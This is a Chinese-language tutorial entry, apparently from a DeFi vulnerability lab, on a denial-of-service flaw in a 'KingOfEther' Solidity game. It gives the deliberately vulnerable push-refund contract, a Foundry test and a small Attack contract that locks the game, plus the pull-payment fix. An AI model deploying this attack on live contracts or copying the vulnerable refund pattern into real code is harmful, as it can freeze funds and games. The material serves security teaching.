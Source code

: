 # 拒绝服务攻击  
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)  
**名称：** 拒绝服务攻击  
KingOfEther合约有一个游戏，用户可以通过发送比当前余额更多的以太币来夺取王位。  
当新用户发送更多以太币时，合约试图将之前的余额返还给上一位“国王”。   

然而，这个机制可能被利用。攻击者的合约(这里称为Attack合约)可以成为国王，  
然后使回退函数回滚或消耗超过规定的gas限制，从而导致KingOfEther合约在尝试将以太币返回给上一位国王时失败。


**缓解措施：**  
使用拉取支付模式。一种防止这种情况的方法是允许用户提取他们的以太币，而不是直接发送给他们。  

**参考：**  
https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26  

**KingOfEther合约：**  
```
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/DOS.sol -vvvv  
```
// 这是一个测试函数，用于执行DoS攻击的场景
function testDOS() public {
    // 声明了两个地址，分别用于模拟用户Alice和Bob。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice和Bob分别获得4个以太币和2个以太币。
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // 使用Alice的地址调用prank函数
    vm.prank(alice);

    // Alice试图通过发送1个以太币来夺取KingOfEtherContract的王位
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // 再次调用prank函数，这次使用Bob的地址。
    vm.prank(bob);

    // Bob试图通过发送2个以太币来夺取王位
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // 记录Alice在返回1个以太币后的余额
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // 调用Attack合约的attack函数，发起DoS攻击，
    // 向KingOfEther合约发送3个以太币。
    AttackerContract.attack{value: 3 ether}();

    // 记录KingOfEther合约的余额
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // 记录一条消息，表明攻击已完成，Alice将无法再次夺取王位。
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // 使用Alice的地址再次调用prank函数，预期会触发回滚。
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice试图再次夺取王位，但由于DoS攻击而失败。
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// 这是用于实施DoS攻击的合约
contract Attack {
    KingOfEther kingOfEther;

    // 用于初始化KingOfEther合约的构造函数。
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 通过向KingOfEther合约发送以太币来夺取王位的攻击函数。
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```  
**红框：** 在攻击漏洞后，没有人能够赢得这个游戏  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F250bdebe-a8ed-459a-b62f-bcf5c992c156%2FUntitled.png?table=block&id=17d7c11c-3273-49da-95a4-d6ba9817ad4b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

